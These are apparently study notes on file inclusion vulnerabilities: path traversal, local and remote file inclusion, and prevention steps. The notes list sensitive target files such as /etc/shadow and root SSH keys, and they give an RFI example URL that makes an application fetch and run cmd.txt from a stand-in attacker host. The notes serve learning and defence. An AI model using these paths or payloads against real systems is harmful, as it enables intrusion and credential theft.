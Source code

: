 Breakdown of a URL: 
![](Pasted%20image%2020250802084226.png)
(Hesle, _Absolute URL_ ) -> https://servebolt.com/help/technical-resources/the-default-url-structure/

Parameters - query parameter strings attached to the URL to retrieve data or perform actions based on user input

- File Inclusion vulnerabilities typically are found in web applications that are written and implements poorly. 
	- Ex. Poorly written web application written in PHP.

### Path Traversal

Directory Traversal - web security vulnerability that allows an attacker to read operating system resources 

	Ex. Reading local files on a server running an application

#### Important to Know Folder Destinations

| /etc/issue                  | contains a message or system identification to be printed before the login prompt                                                                                |
| --------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /etc/profile                | controls system-wide default variables such as Export variables, File creation mask(unmask), Terminal types, Mail messages to indicate when new mail has arrived |
| /proc/version               | specifies the version of the Linux kernel                                                                                                                        |
| /etc/passwd                 | has all registered users that have access to the system                                                                                                          |
| /etc/shadow                 | contains the information about he system's users' paswswords                                                                                                     |
| /root/.bash_history         | contains the history commands for root user                                                                                                                      |
| /var/log/dmessage           | contains global system messages, including the messages that are logged during system startup                                                                    |
| /root/.ssh/id_rsa           | Private SSH keys for a root or any known valid user on the server                                                                                                |
| /var/mail/root              | all emails for root user                                                                                                                                         |
| /var/log/apache2/access.log | the accessed requests for Apache web server                                                                                                                      |
| C:\boot.ini                 | contains the boot options for computers with BIOS firmware                                                                                                       |


### Local File Inclusion (LFI)

- PHP functions such as *include, requires, include_once, and require_once* often are used on vulnerable web applications.
  

- Null bytes can be used an n injection technique represented as %00 or 0x00 in hex with user supplied data to terminate strings.
	- Tricks the web app into disregarding whatever comes after the Null Byte

### Remote File Inclusion (RFI)

 RFI is a technique used to include remote files into a vulnerable application

- RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. 
- ==One requirement for RFI is that the allow_url_fopen option needs to be on.==

Consequences of RFI:
- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

- An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Malicious files can then be injected into the include function via HTTPS requests to execute the remote files on the application server

Ex. RFI Steps

1) http://webapp.thm/get.php?file=https://attacker.thm/cmd.txt
2) Web Application gets http://attacker.thm/cmd.txt
3) content of cmd.txt is send to the web application 
4) Application server injects the content of cmd.txt into the *include* function and executes it
5) Results of the execution are sent back within the get.php page



### Preventing File Inclusion vulnerabilities
1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. Web Application Firewall (WAF) help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.